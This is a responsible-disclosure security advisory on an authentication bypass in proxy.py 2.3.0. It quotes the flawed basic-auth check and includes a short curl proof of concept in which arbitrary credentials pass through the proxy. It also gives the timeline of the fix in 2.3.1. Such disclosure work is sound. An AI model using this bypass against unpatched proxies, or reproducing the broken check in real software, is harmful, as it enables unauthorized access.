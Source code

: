 ```yaml
---
title: proxy.py 2.3.0 — Broken basic authentication
description: A logic bug enables a trivial bypass of the basic authentication mechanism of the proxy.
tags: [proxy, authentication]
advisory:
  discovered: 2021-01-09
  product: '[proxy.py](https://github.com/abhinavsingh/proxy.py)'
  versions:
    - 2.3.0
---
```


## Abstract

[proxy.py](https://github.com/abhinavsingh/proxy.py) is a feature-rich HTTP proxy server written in Python. Among the other things it allows to spawn a proxy server that enforces [HTTP basic access authentication][basic-auth].

A recent [refactoring][] introduced a logic bug that allows to bypass the proxy authentication.

[refactoring]: https://github.com/abhinavsingh/proxy.py/commit/a48319e32d3c60cb919ef70706b3a3750406f837
[basic-auth]: https://en.wikipedia.org/wiki/Basic_access_authentication

## Details

The vulnerable code is located in [proxy/http/proxy/auth.py][bug]:

```python
def before_upstream_connection(
        self, request: HttpParser) -> Optional[HttpParser]:
    if self.flags.auth_code:
        if b'proxy-authorization' not in request.headers:
            raise ProxyAuthenticationFailed()
        parts = request.headers[b'proxy-authorization'][1].split()
        if len(parts) != 2 \
                and parts[0].lower() != b'basic' \
                and parts[1] != self.flags.auth_code:
            raise ProxyAuthenticationFailed()
    return request
```

The `and` operators are wrong here, and it is enough to set one of its operands to `False` to skip the challenge and bypass the authentication. A valid `Proxy-Authorization` header (e.g., for `user:password`) is in the form:

```
Proxy-Authorization: Basic dXNlcjpwYXNzd29yZA==
```

So `len(parts)` is `2`, thus any valid header with any credentials works.

[bug]: https://github.com/abhinavsingh/proxy.py/blob/f04845cd645e642b92a40ea5650fd805f4f9ad04/proxy/http/proxy/auth.py#L31-L41

## Proof of concept

Start `proxy.py` like:

```console
$ proxy --basic-auth user:password
2021-01-10 19:25:31,183 - pid:73304 [I] load_plugins:334 - Loaded plugin proxy.http.proxy.AuthPlugin
2021-01-10 19:25:31,184 - pid:73304 [I] load_plugins:334 - Loaded plugin proxy.http.proxy.HttpProxyPlugin
2021-01-10 19:25:31,184 - pid:73304 [I] listen:113 - Listening on ::1:8899
2021-01-10 19:25:31,215 - pid:73304 [I] start_workers:136 - Started 8 workers
```

Trying to use the proxy without credentials correctly yields a proxy authentication error:

```console
$ curl -I -x localhost:8899 http://example.com
HTTP/1.1 407 Proxy Authentication Required
Proxy-agent: proxy.py v2.3.0
Proxy-Authenticate: Basic
Connection: close
Content-Length: 29
```

But specifying any credentials (e.g., `x:x`) allows the request to go through:

```console
$ curl -I -x x:x@localhost:8899 http://example.com
HTTP/1.1 200 OK
Content-Encoding: gzip
Accept-Ranges: bytes
Age: 276321
Cache-Control: max-age=604800
Content-Type: text/html; charset=UTF-8
Date: Sun, 10 Jan 2021 18:31:28 GMT
Etag: "3147526947"
Expires: Sun, 17 Jan 2021 18:31:28 GMT
Last-Modified: Thu, 17 Oct 2019 07:18:26 GMT
Server: ECS (bsa/EB23)
X-Cache: HIT
Content-Length: 648
```

## Timeline

2021-01-09
: Disclosed privately to the developers as suggested in their [SECURITY.md][].

2021-01-10
: The developers implement the [fix][] and release version 2.3.1

[fix]: https://github.com/abhinavsingh/proxy.py/pull/482/commits/9b00093288237f5073c403f2c4f62acfdfa8ed46
[SECURITY.md]: https://github.com/abhinavsingh/proxy.py/blob/develop/SECURITY.md
